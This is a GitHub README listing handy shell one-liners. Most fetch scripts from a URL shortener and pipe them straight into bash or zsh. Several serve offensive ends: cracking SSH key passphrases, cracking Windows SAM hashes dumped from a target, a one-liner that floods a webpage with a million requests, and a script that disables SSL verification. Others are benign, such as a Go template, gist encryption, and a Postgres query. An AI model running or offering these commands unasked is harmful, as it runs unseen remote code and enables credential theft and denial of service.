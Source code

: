 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/d)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

If you have successfully dumped hashes from the sam database of a Windows target and stored them to a file you can use the following scrip to retrieve the cleartext passwords:

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```


* [Disable ssl verification](https://shortly.fun/no-ssl-verification)

If you want to disable ssl verification for a software which uses openssl or gnutls as a shared library you can do the following:
```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | zsh -s <some-command-you-want-to-disable-ssl-verification-for>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | bash -s <some-command-you-want-to-disable-ssl-verification-for>
```


* [Generate a report](https://github.com/4thel00z/reportgen)

In case you are a l33t h4x0r who wants to render the nicest OSCP pentesting report or some boring stuff documentation for your newest JS hipster framework with 666 stars you can use the following command on a markdown that looks like [this](https://raw.githubusercontent.com/4thel00z/reportgen/master/example.md):

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/genreport  | zsh -s example.md example.pdf
```

* [Open url in wayback machine (private firefox window)](https://shortly.fun/wayback)

In case you want to check for a url in a private firefox window in the [Wayback machine](https://archive.org/) you can use the following script:

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/wayback  | zsh -s https://example.com
```

* Debugging postgres - Find longrunning queries

If you are debugging your postgres instance and have [pgcli](https://github.com/dbcli/pgcli) installed, you can find out which query it is via:
You will have to have `$DB_HOST`, `$DB_USERNAME` and `$DB_NAME` set appropriately.

```
echo "WITH long_running AS (SELECT pid, now() - pg_stat_activity.query_start AS duration, query, state FROM pg_stat_activity WHERE (now() - pg_stat_activity.query_start) > interval '1 minutes' and state = 'active') SELECT * from long_running;"| pgcli -h $DB_HOST -U $DB_USERNAME -d $DB_NAME 
```

* Login docker to point to your private ecr registry

```
export REGION=eu-central-1; aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin $(aws sts get-caller-identity --query Account --output text).dkr.ecr.$REGION.amazonaws.com

```
## License

This project is licensed under the GPL-3 license.
